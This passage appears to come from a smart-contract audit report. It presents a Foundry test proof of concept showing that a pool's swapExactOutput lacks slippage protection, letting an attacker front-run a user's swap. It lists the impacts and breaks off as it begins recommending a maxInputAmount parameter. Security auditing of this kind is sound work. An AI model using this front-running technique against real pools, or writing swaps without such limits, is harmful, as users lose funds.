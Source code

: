 **Proof of Concept**:  
```solidity
function testSwapExactOutputNoSlippageProtection() public {
    // deposit liquidity to the pool
    vm.startPrank(liquidityProvider);
    weth.approve(address(pool), 100e18);
    poolToken.approve(address(pool), 100e18);
    pool.deposit(100e18, 100e18, 100e18, uint64(block.timestamp));
    // now the pool has liquidity

    //get the current reserves of poolToken and weth
    uint256 poolTokenReserves = poolToken.balanceOf(address(pool));
    uint256 wethReserves = weth.balanceOf(address(pool));

    // user wants to swap poolToken for weth, user want to get 10 weth (not 100, which was too much)
    vm.startPrank(user);
    uint256 expectedInputAmount = pool.getInputAmountBasedOnOutput(10e18, poolTokenReserves, wethReserves);

    // now attacker front run the user's transaction
    address attacker = makeAddr("attacker");
    vm.startPrank(attacker);
    poolToken.mint(attacker, 100e18);
    weth.mint(attacker, 100e18);
    // attacker will take out the weth from the pool to make the weth price higher
    poolToken.approve(address(pool), 30e18);
    pool.swapExactInput(poolToken, 30e18, weth, 1, uint64(block.timestamp));
    vm.stopPrank(); 
    // now the pool reserves are changed 

    poolTokenReserves = poolToken.balanceOf(address(pool));
    wethReserves = weth.balanceOf(address(pool));

    uint256 actualInputAmount = pool.getInputAmountBasedOnOutput(10e18, poolTokenReserves, wethReserves);
    console.log("actualInputAmount", actualInputAmount);
    console.log("expectedInputAmount", expectedInputAmount);
    assert(actualInputAmount > expectedInputAmount);
}
```

The test shows that after a front-running attack, the user would have to pay significantly more pool tokens than expected to receive their desired WETH output.

**Impact**:  
1. Users have no way to limit how much they'll pay in a `swapExactOutput` transaction
2. Makes the protocol highly vulnerable to sandwich attacks and front-running
3. Could lead to significant economic loss for users when market conditions change between their calculation and transaction execution

**Recommendation**:  
Add a `maxInputAmount` parameter to the `swapExactOutput` function to protect users:
